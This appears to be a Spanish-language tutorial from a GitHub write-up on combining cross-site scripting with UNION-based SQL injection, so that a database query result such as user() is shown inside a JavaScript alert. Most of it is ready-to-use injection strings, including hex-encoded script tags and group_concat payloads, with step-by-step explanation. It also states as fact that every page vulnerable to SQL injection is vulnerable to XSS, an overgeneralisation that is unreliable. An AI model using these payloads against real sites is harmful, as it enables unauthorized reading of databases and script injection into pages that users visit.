 # One shot payload sql and xss

En este escrito me gustaría compartir una de mis mezclas favoritas, en donde se combina una inyeccion xss dentro de una inyeccion sql para asi poder mostrar el resultado de la inyeccion sql dentro de un alert gracias a la inyeccion xss, puede sonar loco o complicado pero no, es bastante facil y trataré de explicarlo paso a paso, aqui un ejemplo del resultado: 

![](ejemplos/1.png)

Para empezar tenemos que recordar bien como se comporta una inyeccion sql, ya que, para poder insertar este payload tenemos que hacerlo en una comlumna vulnerable, para recordar bien esto recomiendo pasar por el escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md

Una vez que tengamos la pagina con la inyeccion sql lista y tengamos el numero de columnas descubiertas, podemos empezar:

![](ejemplos/2.png)

En este caso la pagina que utilizaré tiene 21 columnas y las columnas vulnerables son 16, 17 y la numero 18. Yo estare trabajando con la numero 18.

Recordemos que siempre que una pagina es vulnerable a inyecciones sql tambien es vulnerable a inyecciones xss, para poder inyectar xss dentro de sql se hace lo siguiente:

1 - Primero se identifica la columna vulnerable con la cual se va a trabajar (en este caso la numero 18):

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21+--+`

2 - Inyectamos el payload xss dentro de la columna:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,<script>alert("_Y000!_")</script>,19,20,21+--+
        
3 - Para que se mueste correctamente la inyeccion xss tenemos que pasar el codico a hexadecimal:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e,19,20,21+--+`
        
4 - El resultado es el siguiente:         

![](ejemplos/3.png)

Ahora, en este caso solo estamos inyectado xss puro y solo nos muestra un alert, para el sigiente paso vamos a usar los siguietes comandos y me gustaria explicar su funcion ya que los usaremos mas adelante:

```
\n = 5c6e =salto de linea

------ = 2d2d2d2d2d2d = lo usaremos como separador
```

NOTA= para hacer que los codigos codificados en hexadecimal funcionen en la inyeccion tenemos que poner 0x antes del codigo para que el navegador reconozca que estamos usando codico en hexadecimal y lo lea correctamente

Siguiendo con la inyeccion, vamos a introducir un poco de syntaxis sql dentro de la inyeccion xss, mas especificamente, lo que vamos a hacer es extender el alert:

El siguiente payload nos quedara asi:
`group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`

con todas las partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c65727428227873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x5573756172696f3a3a,user(),0x22293c2f7363726970743e),19,20,21+--+`


vamos a explicar paso a paso esta inyeccion:

1 - Estamos usando "group_concat" al principio por que ya estamos integrando syntaxis sql dentro de la inyeccion xss:

          `group_concat`

2 - Ponemos el payload entre "()" ya que es la syntaxis usada para group_concat 

          `group_concat()`
          
3 - Estamos haciendo uso de caracteres especiales para personalizar el alert

          `group_concat(group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,")</script>))`
          
4 - Usamos "Usuario::" para darle un lugar especifco a "user()" el cual usamos para que la inyeccion nos muestre el usuario que la pagina nos esta dando, en este caso tenemos "root@localhost" 

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`
          
5 - resultado:

![](ejemplos/4.png)







